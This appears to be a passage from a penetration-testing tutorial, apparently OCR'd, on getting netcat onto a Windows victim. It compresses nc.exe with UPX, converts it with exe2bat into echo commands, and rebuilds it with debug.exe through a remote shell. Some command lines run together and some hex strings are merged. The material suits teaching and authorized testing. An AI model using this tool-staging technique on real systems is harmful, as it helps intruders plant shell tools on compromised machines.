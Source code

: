   To get the nc.exe executable ready for tansfer:
  ```
  root@kali:~# locate nc.exe|grep binaries /usr/share/windows-binaries/nc.exe
  root@kali:~# cp /usr/share/windows-binaries/nc.exe . root@kali:~# ls -l nc.exe
  -rwxr-xr-x 1 root root 59392 Apr 11 05:13 nc.exe root@kali:~# upx -9 nc.exe
  Ultimate Packer for eXecutables
  Copyright (C) 1996 - 2011
  UPX 3.08 Markus Oberhumer, Laszlo Molnar & John Reiser Dec 12th 2011
  File size Ratio Format Name -------------------- ------ ----------- -----------
  59392 -> 29184 49.14% win32/pe nc.exe
  Packed 1 file.
  root@kali:~# ls -l nc.exe
  -rwxr-xr-x 1 root root 29184 Apr 11 05:13 nc.exe
  ```

  Now that our file is optimized and ready for transfer, we can convert the nc.exe file to a text file that can be used by debug.exe, on the victim machine, to rebuild the file from text, back to an executable.
  ```
  root@kali:~# locate exe2bat /usr/share/windows-binaries/exe2bat.exe
  root@kali:~# cp /usr/share/windows-binaries/exe2bat.exe . root@kali:~# wine exe2bat.exe nc.exe nc.txt
  Finished: nc.exe > nc.txt
  root@kali:~# head nc.txt
  echo n 1.dll >123.hex
  echo e 0100 >>123.hex
  echo 4d 5a 90 00 03 00 00 00 04 00 00 00 ff ff 00 00 b8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 80 00 00 00 0e 1f ba 0e 00 b4 09 cd 21 b8 01 4c cd 21 54 68 69 73 20 70 72 6f 67 72 61 6d 20 63 61 6e 6e 6f 74 20 62 65 20 72 75 6e 20 69 6e 20 44 4f 53 206d6f64652e0d0d0a2400000000000000 >>123.hex
  echo e 0180 >>123.hex
  echo 50 45 00 00 4c 01 04 00 ee 7e 66 51 00 00 00 00 00 00 00 00 e0 00 0f 03 0b 01 02 16 00 98 00 00 00 4c 00 00 00 00 00 00 00 4c 00 00 00 10 00 00 00 c0 00 00 00 00 40 00 00 10 00 00 00 02 00 00 04 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 00 30 01 00 00 04 00 00 5a 93 01 00 03 00 00 00 00 00 10 00 00 10 00 00 00 00 10 00 00 10 00 0000000000100000000000000000000000 >>123.hex
  echo e 0200 >>123.hex
  ...
  ```

  We now have a file called nc.txt, which can simply be copied and pasted, in the remote shell. Notice how each command executed is non interactive, and simply echo’s a bunch of hex strings, into a file. Towards the end of nc.txt, we can see the commands that rebuild the nc.exe executable, on the target machine:
  ```
  ...
  echo e e900 >>123.hex echo >>123.hex
  echo r cx >>123.hex echo e800 >>123.hex echo w >>123.hex
  echo q >>123.hex debug<123.hex
  copy 1.dll nc.exe
  ```

### Webdav
